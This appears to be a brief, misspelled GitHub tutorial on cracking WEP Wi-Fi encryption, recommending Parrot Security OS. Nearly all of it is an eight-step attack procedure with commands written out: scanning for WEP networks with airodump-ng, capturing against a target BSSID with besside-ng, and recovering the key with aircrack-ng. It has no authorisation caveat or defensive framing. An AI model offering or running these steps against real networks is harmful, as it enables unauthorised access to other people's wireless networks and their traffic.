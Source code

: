 ## IN THIS TOTURIAL YOU WILL LEARN HOW TO CRACK WEP WIFI SECURITY.
## YOU CAN USE PARROT SECURITY OS FOR BEST RESULTS.



STEP 1:  sudo airodump-ng wlan0 --encrypt wep

STEP 2:  once you get the wep targets then press CNTRL+C

STEP 3:  sudo besside-ng wlan0 -b 00:00:00:00:00:00 (we are using besside-ng tool here and -b = bssid of target)

STEP 4:  if you are getting any error while running the above command then run i twice and thrice until you suceed

STEP 5:  after 20000 you will recieve the key in another format but to remember the key in human touch then run this command

STEP 6:  aircrack-ng ./wep.cap

STEP 7:  select the target

STEP 8:  once it will found the key it will show you the key will be ASCII

